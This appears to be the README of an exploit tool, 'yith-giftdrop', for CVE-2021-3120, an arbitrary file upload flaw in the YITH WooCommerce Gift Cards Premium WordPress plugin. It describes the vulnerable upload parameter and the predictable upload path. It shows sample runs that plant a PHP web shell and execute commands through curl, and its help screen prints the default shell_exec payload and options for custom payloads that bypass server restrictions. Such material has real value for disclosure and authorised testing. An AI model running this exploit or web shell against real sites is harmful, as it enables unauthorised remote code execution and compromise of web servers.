 # yith-giftdrop
A tool for checking as well as exploiting CVE-2021-3120, Arbitrary File Upload vulnerability in YITH WooCommerce Gift Cards Premium version 3.3.0 and below.

## A Word of Warning
Please do not run this tool against systems that you do not have permissions to test. Doing so is illegal and you could face prosecution despite your best intentions. If you are an IT/cyber security enthusiast and is curious about how this tool works, please setup your own lab environment to test it out. 

## Vulnerability Description
A critical vulnerability (CVSSv3 9.8) exists in the WordPress plugin "YITH WooCommerce Gift Cards Premium" version 3.3.0 and below, which allows an attacker to uploadarbitary files to the server and therefore achieve remote code execution on the server operating system in the security context of the web server. 

The plugin allows gift card products to be added to the site (powered by the WordPress WooCommerce plugin) and offers an optional feature that let customers purchase gift cards with custom designs by upload a picture of their choice when placing the gift card product in the cart. The file is submitted via the "ywgc-upload-picture" file parameter of the POST request however the server does not perform sanity checks when processing the request, and stores the file in a predictable location on the server, with the client-specified file name including extension. Code execution can be easily achieved by uploading a PHP file with .php extension and then requesting the file at the uploaded location.

It is also worth noting that the vulnerability is exploitable regardless of whether the custom gift card design feature is enabled or not. The only condition required to exploit this vulnerability is the ability to add a gift card to the shopping cart. 

## Vulnerability Details
| Vulnerability Name | Arbitrary File Upload Leading to Remote Code Execution |
| CVE | CVE-2021-3120 |
| CVSS Vector | CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| CVSS Score | 9.8 (Critical) |
| Vendor | YITH |
| Product Affected | YITH WooCommerce Gift Cards Premium |
| Product Page | https://yithemes.com/themes/plugins/yith-woocommerce-gift-cards/ |
| Versions Affected | Version 3.3.0 and below | 
| Fixed Version | v3.3.1 |

Version 3.1.5 and version 3.3.0 were used for testing and were found to be vulnerable. Lab environment was running WordPress 5.6 and WooCommerce 4.8.0.

## About This Tool

This tool is written to automate the discovery of WordPress sites that may be affected by this issue. It does so by performing a version enumeration using information contained in the readme.txt file which is included with the plugin by default.

In addition, it has a capability to perform a proof of concept test by uploading a simple php script with a randomly generated name. The script contains a simple echo command, which when requested is used to confirm code execution. As the uploaded file will remain on the server, the randomly generated file name will help reduce the chance of the file being requested by others and also the script would not cause any harm to the server.

The tool can also be used to exploit this vulnerability. The default attack is to upload a simple PHP web shell. This can be used to execute further OS commands, including reverse shells. For more "interesting" scenarios you can specify a custom payload as well as custom file names to bypass further server side restrictions.

## Installation

Simply clone the repository or download the yith-giftdrop.py file to run.

## Usage

To perform vulnerability test via version enumeration, specify the url of the gift card product (-u) and enumeration mode (-e). This is purely information gathering and does not attempt any file upload operations.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -e
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
```

To perform a proof of concept, use the -c option. This will leave a PHP file on the server so a warning will be displayed to inform you of this and the program will exit at this point. You will need to add the -a or --accept flag to confirm that you understood this and want to continue.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -c -a
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
Info: Preparing for upload...
Info: Uploaded file to: http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/7eb0273842554d6e9db937be07faf270.php
Info: Received expected response at payload url. CODE EXECUTION confirmed!
```

By default the tool will attempt to upload a basic web shell. Again you will need to add the -a or accept flag to confirm you want to proceed.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -a
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
Info: Preparing for upload...
Info: Payload uploaded to: http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php
Info: Default payload (OS Command Execution) is used. Try below to obtain server hostname:
Info:     curl http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php?cmd=hostname
$ curl http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
For other uses of the tool, including the use of a custom payload and file name, see the help screen.
```
$ ./yith-giftdrop.py -h
usage: yith-giftdrop.py [-h] [-e] [-c] -u URL [-p PAYLOAD] [-f FILE] [-n NAME] [-a]


__   _______ _____ _   _   _____ _  __ _    ______
\ \ / /_   _|_   _| | | | |  __ (_)/ _| |   |  _  \
 \ V /  | |   | | | |_| | | |  \/_| |_| |_  | | | |_ __ ___  _ __
  \ /   | |   | | |  _  | | | __| |  _| __| | | | | '__/ _ \| '_ \
  | |  _| |_  | | | | | | | |_\ \ | | | |_  | |/ /| | | (_) | |_) |
  \_/  \___/  \_/ \_| |_/  \____/_|_|  \__| |___/ |_|  \___/| .__/
                                                            | |
                                                            |_|
    A tool to check & exploit the arbitary file upload vulnerability
    in YITH WooCommerce Gift Cards Premium v3.3.0 and below

    CVE:        CVE-2021-3120
    Written by: Guy Liu
                guy.liu@air-sec.co.uk

optional arguments:
  -h, --help            show this help message and exit
  -e, --enum            Enum plugin version only
  -c, --check           Check for file upload and code execution only
  -u URL, --url URL     URL of Gift Card Product
  -p PAYLOAD, --payload PAYLOAD
                        Specify a payload to upload to server. Default is <?php echo shell_exec($_GET['cmd']);?>
  -f FILE, --file FILE  Specify a custom file to upload. Cannot be used with --payload/-p option
  -n NAME, --name NAME  Use specified file name rather than automatically generated file name
  -a, --accept          I understand that this program will leave payload files on the server

```

Enjoy!




















